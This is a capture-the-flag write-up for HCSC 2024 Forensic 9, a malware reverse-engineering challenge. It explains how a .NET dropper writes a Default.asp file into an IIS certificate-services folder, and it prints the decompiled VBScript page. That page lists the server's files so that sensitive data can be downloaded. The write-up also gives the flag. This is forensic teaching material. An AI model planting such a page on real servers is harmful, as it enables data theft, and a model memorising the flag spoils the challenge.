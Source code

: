 # HCSC 2024 - Forensic 9.

## Description

We need to know what the payload of the malware contains, what it does exactly, so it’s time to reverse engineering a bit. 

There is a flag inside the malware – yes, in flag format.


## Metadata

- Tags: `dnspy`, `iis`, `default.asp`, `exfiltration`
- Points: `500`
- Number of solvers: `11`
- Filename: -

## Solution

The `init.dll` file identified in the previous challenge is a .NET binary, so it can be analyzed with `DNSpy`. The binary does nothing but decompress a `GZIP` byte sequence and save it as `Default.asp` to the `C:\Windows\System32\CertSrv\en-US\Internal\` folder. 

![init.dll hexdump](media/initdll-hexdump.png)

![init.dll decompiled](media/initdll-decompiled.png)

After copying and unpacking the bytes, we get the following code and the flag.

```html
<%@ Language=VBScript%><HTML><HEAD><%response.write("<TITLE>hcsc{meghoztam_a_parizert_letettem_az_asztalra};</TITLE>")%></HEAD><BODY><%set FileSysObj=CreateObject("Scripting.FileSystemObject"): strFileAndPath = request.servervariables("SCRIPT_NAME"): strFullPath = server.mappath(Mid(strFileAndPath,1 ,InStrRev(strFileAndPath, "/"))): set fldr=FileSysObj.GetFolder(strFullPath): response.write("<H1>"&strFullPath&"</H1><H2>Folders</H2>"): For Each FolderIndex in fldr.SubFolders: Response.Write("<A HREF='"&FolderIndex.name&"'>"&FolderIndex.name&"</A><BR>"): Next: response.write("<H2>Files</H2>"): For Each FileIndex in fldr.Files: Response.Write("<A HREF='"&FileIndex.name&"'>"&FileIndex.name&"</A><BR>"): Next%></BODY></HTML>
```

This file is used to allow the data theft to take place. Sensitive `MOK_` files can be downloaded via the IIS server.

The task can also be solved by running `GamingMonitor.exe` on the DC as `Administrator` and opening the resulting `Default.asp` file in the `C:\Windows\System32\CertSrv\en-US\Internal\` folder.

Flag: `hcsc{meghoztam_a_parizert_letettem_az_asztalra}`